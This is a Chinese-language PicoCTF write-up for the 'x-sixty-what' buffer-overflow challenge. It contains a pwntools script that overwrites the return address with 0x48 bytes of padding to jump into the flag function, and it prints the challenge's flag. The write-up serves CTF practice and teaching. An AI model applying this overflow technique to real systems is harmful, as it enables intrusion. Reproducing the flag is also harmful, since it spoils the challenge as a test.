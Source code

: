 ```yaml
---
title: PicoCTF - x-sixty-what
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - x-sixty-what

## Source code
:::spoiler
```cpp=

```
:::

## Recon
這一題有點奇怪，沒有想像中簡單，看起來就是一個簡單的return 2 function的問題，但是看了objdump的flag function原本應該是0x401236，但是會友segmentation fault，看了其他的WP[^x_sixty_what_WP]，發現應該return到0x40123b，不太知道為甚麼
* 第一張是return 2 0x401236
![](https://hackmd.io/_uploads/Bk2PZ_0ch.png)

* 第二張是return 2 0x40123b
    ![](https://hackmd.io/_uploads/SymO-uAqn.png)

## Exploit
1. 用動態的方式看offset
$$
0x7fffffffd758 - 0x00007fffffffd710 = 0x48
$$
```python=
from pwn import *

r = remote('saturn.picoctf.net', 58166)
# r = process('./vuln')
context.arch = 'amd64'

raw_input()
print(r.recvline().strip().decode())

payload = b'a'*0x48 + p64(0x40123b)
print(payload)
r.sendline(payload)

r.interactive()
```

Flag: `picoCTF{b1663r_15_b3773r_e79d5a75}`

## Reference
[^x_sixty_what_WP]:[x-sixty-what WP](https://ctftime.org/writeup/33199)